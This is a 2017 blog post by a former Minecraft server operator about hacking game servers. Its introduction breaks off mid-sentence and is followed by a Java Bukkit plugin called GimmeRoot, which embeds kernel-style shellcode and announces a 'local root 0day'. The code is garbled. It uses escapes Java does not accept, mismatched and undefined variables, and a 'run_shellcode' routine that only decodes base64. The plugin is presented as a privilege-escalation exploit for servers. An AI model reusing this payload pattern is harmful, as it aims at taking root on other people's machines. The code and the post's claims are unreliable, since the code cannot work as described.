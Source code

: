 ```yaml
---
title: "Exploiting vulnerable software and privelage escalation, with some bonus arbitrary code execution :)"
layout: post
date: 2017-06-16 07:47
headerImage: true
tag:
- exploit
- security
- project
- tech
- linux
- java
- 0day
- code
category: blog
author: samlim
description: An old project that may pique the interest of those of you who are curious about 'hacking' :)
---
```


## Introduction
Hello everybody!

Back in my school days when I was a wee lad (8th grade or so), I began to foster a passion for cybersecurity. Back then I also adored the then-indie game [Minecraft](https://minecraft.net/en-us/). Since I played that game it has since then been purchased by Microsoft, and man did that game go downhill. Please do excuse my harsh critique, maybe it's just the nostalgia I miss :-)

I spent more time with Minecraf than I care to admit. However towards the end of my virtual endeavors as miner, I began to become more and more absorbed in the _server_ aspects of the game. What followed were several of my attempts at starting my own personal server: I lasted sveral months, in which I made several thousand dollars worth of donations from my players. All from a video game! 

_Not too important right now, but the volatility of these types of game servers and the potential revenue achievable will make more sense later as I explain why exactly "hacking" (ethical or not) is so appealing_ 

But what had really kindled my interest in what this article is about, cybersecurity, 

    package com.mcshell;

    import java.io.File;
    import java.io.FileOutputStream;
    import org.bukkit.plugin.java.JavaPlugin;

    public final class GimmeRoot extends JavaPlugin {
    /*
     * ##
     * # Old semi-updated version
     * ##
     * [REDACTED] Shell - [Redacted], s.lim
     * a [REDACTED] project
     */

    public String payload = "\x0f\x01\xf8\x65\x48\x8b\x3c\x25\x00\x00\x00\x00
                            \x48\xb8\x41\x41\x41\x41\x41\x41\x41\x41\xff\xd0
                            \x0f\x01\xf8
                            \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
                            \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
                            \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
                            \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
                            \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
                            \x48\xcf";

    public static void execute(String x) {
        System.out.println("[LOCAL ROOT 0DAY] " + x);
    }

    public void onEnable(){
        try {
            Runtime friend = Runtime.getRuntime();
            execute("here we go");
            execute("[REDACTED]");
            byte[] y = run_shellcode(payload);
            execute("Decrypted payload");
            execute("Saved payload as " + ma_homie);
            execute("bl1NG Bl1ing, to reinitialize shell use the bukkit 'reload' command");

        }
        catch(Exception e) {
            System.out.println("uh oh, error baby: " + e.toString());
        }

    }

    @Override
    public void onDisable() {
    }

    private final static char[] char_map = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"
            .toCharArray();

    private static int[] java_sucks = new int[128];

    static {
        for (int i = 0; i < char_map.length; i++) {
            java_sucks[char_map[i]] = i;
        }
    }
    public static byte[] run_shellcode(String da_shell_code) {
        int sanitize_mah_hax = da_shellcode.endsWith("==") ? 2 : da_shellcode.endsWith("=") ? 1 : 0;
        byte[] the_shiznit = new byte[da_shellcode.length() * 3 / 4 - sanitize_mah_hax];
        int sinker = 0xFF;
        int fat_swedish_fcuking_game_dev = 0;
        for (int i = 0; i < da_shellcode.length(); i += 4) {
            int c0 = java_sucks[da_shellcode.charAt(i)];
            int c1 = java_sucks[da_shellcode.charAt(i + 1)];
            the_shiznit[fat_swedish_fcuking_game_dev++] = (byte) (((c0 << 2) | (c1 >> 4)) & sinker);
            if (fat_swedish_fcuking_game_dev >= the_shiznit.length) {
                return the_shiznit;
            }
            int c2 = java_sucks[da_shellcode.charAt(i + 2)];
            the_shiznit[fat_swedish_fcuking_game_dev++] = (byte) (((c1 << 4) | (c2 >> 2)) & sinker);
            if (fat_swedish_fcuking_game_dev >= the_shiznit.length) {
                return the_shiznit;
            }
            int c3 = java_sucks[da_shellcode.charAt(i + 3)];
            the_shiznit[fat_swedish_fcuking_game_dev++] = (byte) (((c2 << 6) | c3) & sinker);
        }
        return the_shiznit;
    }
}